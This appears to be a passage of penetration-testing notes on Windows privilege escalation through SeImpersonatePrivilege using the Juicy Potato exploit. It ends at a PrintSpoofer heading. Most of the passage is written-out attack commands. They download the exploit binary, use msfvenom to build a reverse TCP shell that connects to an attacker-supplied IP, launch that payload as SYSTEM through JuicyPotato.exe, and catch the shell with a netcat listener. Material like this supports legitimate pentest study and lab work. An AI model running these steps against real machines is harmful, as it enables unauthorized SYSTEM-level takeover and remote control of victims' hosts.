









### **INTRODUCTION**

Service accounts are generally configured with these two privileges. They allow the account to impersonate the access tokens of other users (including the SYSTEM user).

??? info "IMPORTANT"

    Juicy Potato attacks does NOT work on Windows 10 versions equal to or greater than 1809; and does NOT work on Server 2019 at all, For all versions of Server 2016 and Server 2019 we can use PrintSpoofer.exe, as well as every version of Windows 10 from at least 1607 onwards

### **EXPLOITING PRIVILEGES WITH JUICY POTATO**

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit. (These steps are for Windows 7)

1.  Verify if current user has SeImpersonatePrivilege privileges by running:  
    `whoami /priv`  
    
    
    
2.  Use curl to download JuicyPotato.exe from the GitHub repository.  
    `curl -L -o JuicyPotato.exe https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`  

    

    **NOTE:** this is a 64-bit executable. If you need a 32-bit version, you can find that [Here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).
    
3.  we need to determine the OS version running on Attack Machine By using the following command:  
    `systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"`  
    
    
    
4.  This is a Windows 10 Professional – Build 10586. Note that ‘build’ and ‘version’ are different. Build 10586 corresponds to version 1511. Since 1511 < 1809, this Machine should be vulnerable if it hasn't been patched.  
    
    
    
5.  To execute a task as SYSTEM, one approach is to create an executable. This can be achieved using tools such as msfvenom or alternatively, by Using nc.exe   
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1234 -a x64 --platform Windows -f exe -o shell.exe`  
    
    
    
6.  Download both files onto the target using any one of the techniques found in File Transfer Section  
    
    
    
7.  Verify If the exploit Works by redirect the output to output.txt file:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\Users\Public\Downloads\output.txt" -t *`  
    
    
    
8.  Start a netcat listener on port 1234 and execute shell.exe using JuicyPotato.exe:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\shell.exe" -t *`  
    
    
    
9.  If the process is created successfully, we have a SYSTEM shell on our listener.  
    `sudo rlwrap -cAr nc -lvnp 1234`  
    
    
    

### **IMPERSONATING THE LOCAL SYSTEM ACCOUNT WITH PRINTSPOOFER**